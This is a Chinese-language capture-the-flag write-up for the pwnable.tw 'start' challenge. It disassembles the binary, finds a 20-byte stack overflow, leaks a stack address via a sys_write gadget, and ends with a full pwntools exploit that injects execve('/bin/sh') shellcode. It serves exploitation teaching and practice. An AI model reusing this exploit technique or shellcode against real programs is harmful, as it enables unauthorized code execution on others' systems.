 ## 0x00 环境准备

* pwndbg
* pwntools

关闭地址随机化保护（方便调试）

```bash
sysctl -w kernel.randomize_va_space=0
```

## 0x01 分析

file + checksec 二连

ida 分析

```ida
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 20          ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3           
.text:08048097                 int     80h             ; 
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

根据[系统调用号](http://syscalls.kernelgrok.com/)，得知当eax为3时，执行`sys_read`，在加上gdb调试，得到函数流程

```c
void_start(){
    charbuf[20]='Let'sstarttheCTF:';
    // 从buf往stdout写入20字节
    sys_write(1,buf,20);
    // 从stdin中读取60字节到buf 
    sys_read(0,buf,60);
}
```

通过`cyclic`或其他pattern，得到溢出点为20
因此，当程序执行完`sys_read`时候，往`stdin`写入20bytes，`read`函数往栈中写入了20字节，然后即覆盖main的返回地址
返回到`write`函数利用`write`泄漏栈中buf的的地址，然后继续执行到`_start`的返回地址

<!-- todo 说明为什么不变 -->

## 0x02 调试

从标准输入（fd = 0）读入0x3c个字节到0xfffd104中去

![](assets/2019-07-29-20-36-09.png)

栈顶指针加0x14，栈空间减少了0x14个字节
ret至`sys_write`，该函数地址是不变的，一直为0x08048087

![](assets/2019-07-30-09-23-57.png)

`sys_write`参数如下，由于之前的`mov ecx,esp`，泄露出ecx寄存器中的esp栈顶地址存放的值以及之后0x14个字节，即

```py
0xffffd120
0x00000001
0xffffd2f8
0x00000000
0xffffd300
```

![](assets/2019-07-30-09-26-02.png)

从标准输入（fd = 0）读入0x3c个字节到0xfffd11c中去

由之前的例子可知返回地址距离$esp栈顶地址有20个字节，由于最小的shellcode也大于20字节，所以不能直接放入leak的栈空间地址里。

所以只能放在泄露的栈空间的后面，即leak+20 = 0xffffd120+20 的地址处

见下图，返回地址的存放的栈地址是0xffffd130，泄露出的是地址是0xffffd120，因此需要让返回地址变为0xffffd134，而0xffffd134存放shellcode就行了

![](assets/2019-07-30-09-38-56.png)


## 0x03 EXP

```py
# coding:utf-8
from pwn import *

p = process("./start")
# p=remote('chall.pwnable.tw',10000)
context(log_level='debug', arch='i386', os='linux')

gadget = 0x08048087
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(
        proc.pidof(p)[0],
        gdbscript=
            '''
            b *0x8048097    
            '''
    )


def leak():
    p.recv()
    payload = 'A' * 20 + p32(gadget)
    p.send(payload)
    return u32(p.recv(4))


def pwn(shellcode_addr):
    #                    ret shellcode_addr  run_shellcode
    payload = 'A' * 20 + p32(shellcode_addr)+shellcode
    p.send(payload)
    p.interactive()


gdb_attach(p)


shellcode_addr = leak()+20
print "Shellcode_addr = " + hex(shellcode_addr)
pwn(shellcode_addr)

```
